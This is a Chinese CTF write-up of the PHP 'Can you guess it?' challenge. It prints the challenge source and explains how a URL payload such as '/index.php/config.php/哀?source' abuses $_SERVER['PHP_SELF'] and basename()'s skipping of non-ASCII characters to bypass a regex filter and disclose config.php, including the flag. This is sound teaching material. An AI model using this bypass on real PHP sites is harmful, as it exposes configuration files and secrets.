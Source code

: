 ![[Pasted image 20221225090429.png|500]]

---
首页长这样

![[Pasted image 20221225090448.png]]

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

这个`guess`显然是没必要guess了，再怎么guess都guess不出来的啦（摊手）

尝试这个`source`查询的可行性
```php
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```
重点是这个此地无银三百两的`$_SERVER['PHP_SELF']`到底是干啥子的

![[Pasted image 20221225095205.png|800]]

目的是让`basename($_SERVER['PHP_SELF'])`为`config.php`

![[Pasted image 20221225095410.png|500]]

开头的过滤
```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
```
匹配`config.php`和后面任意多个`/`到行尾

![[Pasted image 20221225102919.png|800]]

[默认区域设置中，basename 会忽略开头的非ASCII字符](https://bugs.php.net/bug.php?id=62119)

构造`payload`
```php
/index.php/config.php?source
```

利用`basename`函数的问题尝试修改，以绕过`preg_match`
```php
/index.php/config.php/哀?source
```

```php
<?php
define('FLAG', 'flag{d26cb9ed-4893-418c-a451-e306c00ead33}');
```

#Web #PHP #function #bypass #Vulnerabilities #正则表达式